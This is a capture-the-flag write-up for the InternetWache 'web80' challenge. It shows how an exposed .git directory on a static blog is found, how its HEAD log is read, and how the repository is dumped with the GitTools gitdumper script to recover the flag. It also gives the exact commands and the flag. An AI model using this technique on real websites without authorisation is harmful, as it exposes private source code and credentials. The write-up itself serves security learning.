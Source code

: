 Description: I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML.

Service: https://0ldsk00lblog.ctf.internetwache.org/

The first thing to check was to see if the website contained a git repo.
`https://0ldsk00lblog.ctf.internetwache.org/.git`

## Forbidden
### You don't have permission to access /.git/ on this server.

This is promising as it verifies that Git is there. The next obvious thing to do is to check and see if we can directly access some git files. The files I tried first are the log files:

`https://0ldsk00lblog.ctf.internetwache.org/.git/logs/HEAD`

Log Results:

```
0000000000000000000000000000000000000000 14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 Sebastian Gehaxelt <github@gehaxelt.in> 1453427711 +0100  commit (initial): Initial commit
14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 dba52097aba3af2b30ccbc589912ae67dcf5d77b Sebastian Gehaxelt <github@gehaxelt.in> 1453427733 +0100  commit: Added next post
dba52097aba3af2b30ccbc589912ae67dcf5d77b 26858023dc18a164af9b9f847cbfb23919489ab2 Sebastian Gehaxelt <github@gehaxelt.in> 1453427864 +0100  commit: Added another post
26858023dc18a164af9b9f847cbfb23919489ab2 8c46583a968da7955c13559693b3b8c5e5d5f510 Sebastian Gehaxelt <github@gehaxelt.in> 1453427881 +0100  commit: My recent blogpost
```

Next, I used a tool called `gitdumper` from `GitTools`

`https://github.com/internetwache/GitTools`

Description: `A repository with 3 tools for pwn'ing websites with .git repositories available`

`./gitdumper.sh https://0ldsk00lblog.ctf.internetwache.org/.git /tmp/git-dump`

Running `git-status` inside the cloned git project shows the output of a single file: `index.html`

Next up, I ran `git checkout .` providing me with the `index.html` file.

Finally, I ran `git show` and was able to see the diff and pick up the flag: `IW{G1T_1S_4W3SOME}`

![Flag](https://github.com/Ninjex/CTF-Writeups/blob/master/InternetWache-CTF/web80/web80.png?raw=true "Flag")

